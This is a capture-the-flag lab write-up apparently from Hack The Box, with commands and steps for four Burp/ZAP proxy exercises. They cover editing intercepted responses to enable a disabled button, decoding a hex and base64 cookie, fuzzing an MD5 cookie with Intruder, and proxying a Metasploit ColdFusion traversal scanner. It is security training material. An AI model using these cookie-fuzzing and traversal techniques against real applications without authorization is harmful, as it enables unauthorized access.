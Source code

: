 
# Brief

We are performing internal penetration testing for a local company. As you come across their internal web applications, you are presented with different situations where Burp/ZAP may be helpful. 

Read each of the scenarios in the questions below, and determine the features that would be the most useful for each case. Then, use it to help you in reaching the specified goal.


# Questions

1. The `/lucky.php` page has a button that appears to be disabled. Try to enable the button, and then click it to get the flag.

```sh
# Launch burp and start the browser to access the app
http://94.237.59.174:43851/lucky.php

# Intercept the response to the request, remove the disabled CSS property in the form tag so that it looks like this
    <form name='getflag' class='form' method='post' id='form1'>
        <button class='btn block-cube block-cube-hover' id='submit' type='submit' formmethod='post' name='getflag' value='true'>
    </form>
        

# You will then get a request similar to this one.

POST /lucky.php HTTP/1.1
Host: 94.237.59.174:43851
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.59.174:43851
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.59.174:43851/lucky.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

getflag=true


# Intercept the respinse to that request too to see the flag at the bottom
<p style="text-align:center">HTB{FLAG}</p>


# Basically, intercept requests and responses to requests until you either see the flag in the response or in the UI.
```
<br>
<br>

2. The `/admin.php` page uses a cookie that has been encoded multiple times. Try to decode the cookie until you get a value with 31-characters. Submit the value as the answer.



```sh
# Intercept the response to the request or look into the network tab to get the cookie

HTTP/1.1 200 OK
Date: Sun, 22 Jun 2025 23:44:51 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=rurbkmnsfsruo2ojgc9vntnnmj; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: cookie=4d325268597a6b7a596a686a5a4449314d4746684f474d7859544d325a6d5a6d597a63355954453359513d3d

# Use either decoder or cyberchef to decode. I used cyberchef and it decoded in seconds with the auto decoder. Recipe is 
From Hex. Delimiter: None
From Base64: Standard, Remove non-alphabet chars

# In burp, decode the cookie from ASCII Hex, Then from Base64
```

<br>
<br>

3. Once you decode the cookie, you will notice that it is only 31 characters long, which appears to be an md5 hash missing its last character. So, try to fuzz the last character of the decoded md5 cookie with all alpha-numeric characters, while encoding each request with the encoding methods you identified above. (You may use the `alphanum-case.txt` wordlist from Seclist for the payload)

```sh
# Wordlist
https://git.selfmade.ninja/shamanm725/SecLists/-/blob/master/Fuzzing/alphanum-case.txt

# Can also load the 3 separate lists if you have Burp Pro. Looks like before I can use the thing, there's an intermediary step. Generate all the possible md5 with the alphanum-case

base="3dac93b8cd250aa8c1a36fffc79a17a"; for i in {A..Z} {a..z} {0..9}; do echo "${base}${i}"; done

# Use the result as a simple list for payload configuration. Also paste the MD5 cookie as version instead of the original. In Payload processing
Base64-encode
Encode as ASCII hex
deselect Payload encoding

# Nope. Cookie tooo long. Other option.
Add 1 as as the placeholder to intruder parameter.

# In the payload processing rules, follow this order
Add "3dac93b8cd250aa8c1a36fffc79aXXX" as prefix
Add base64-encode
Add Encode as ASCII hex


# No redirection. Response code nor length didn't even stand out. They all give you the flag once you have the correct order in Intruder processing.
```

<br>
<br>

4. You are using the `auxiliary/scanner/http/coldfusion_locale_traversal` tool within Metasploit, but it is not working properly for you. You decide to capture the request sent by Metasploit so you can manually verify it and repeat it. Once you capture the request, what is the `XXXXX` directory being called in `/XXXXX/administrator/..`?

```sh
# Turn Intercept on then, open terminal for the msf portion
msfconsole -q
use auxiliary/scanner/http/coldfusion_locale_traversal 

options

set Proxies HTTP:127.0.0.1:8080
Proxies => HTTP:127.0.0.1:8080

set rhosts  Your_Target_IP
rhosts => 94.237.59.174

[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set rport Your_Target_Port
rport => 43851

[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> run

# If everything was set up properly, see the captured request and get the folder
GET /XXXXX/administrator/index.cfm HTTP/1.1
Host: 94.237.59.174
```
